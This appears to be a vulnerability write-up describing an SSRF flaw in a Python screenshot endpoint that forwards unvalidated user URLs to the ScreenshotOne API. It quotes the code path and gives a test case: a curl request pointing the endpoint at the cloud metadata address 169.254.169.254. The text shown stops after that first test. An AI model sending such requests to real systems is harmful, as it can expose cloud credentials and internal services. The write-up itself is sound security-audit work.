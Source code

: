 ### Source Code Analysis
Looking at `backend/routes/screenshot.py`, the vulnerable code flow is:

1. **Line 71-72**: The endpoint receives user input directly:
```python
url = request.url
api_key = request.apiKey
```

2. **Line 76**: URL normalization happens but no security validation:
```python
normalized_url = normalize_url(url)
```

3. **Lines 11-36**: The `normalize_url` function only ensures protocol exists but doesn't check for malicious URLs:
```python
def normalize_url(url: str) -> str:
    url = url.strip()
    parsed = urlparse(url)

    if not parsed.scheme:
        url = f"https://{url}"
    # ... more protocol handling but no security checks
    return url
```

4. **Line 79**: The normalized URL is passed directly to the screenshot service:
```python
image_bytes = await capture_screenshot(normalized_url, api_key=api_key)
```

5. **Lines 44-67**: The `capture_screenshot` function sends the URL to ScreenshotOne API without validation:
```python
params = {
    "access_key": api_key,
    "url": target_url,  # User-controlled URL passed here
    # ... other params
}
response = await client.get(api_base_url, params=params)
```

### Security Test Case

**Test Setup:**
1. Deploy the application on a cloud instance (e.g., AWS EC2)
2. Ensure the instance has access to internal services or metadata endpoints

**Test Steps:**

1. **Test 1 - Access Cloud Metadata:**
```bash
curl -X POST https://[instance-url]/api/screenshot \
  -H "Content-Type: application/json" \
  -d '{
    "url": "http://169.254.169.254/latest/meta-data/",
    "apiKey": "[valid-screenshotone-api-key]"
  }'
```
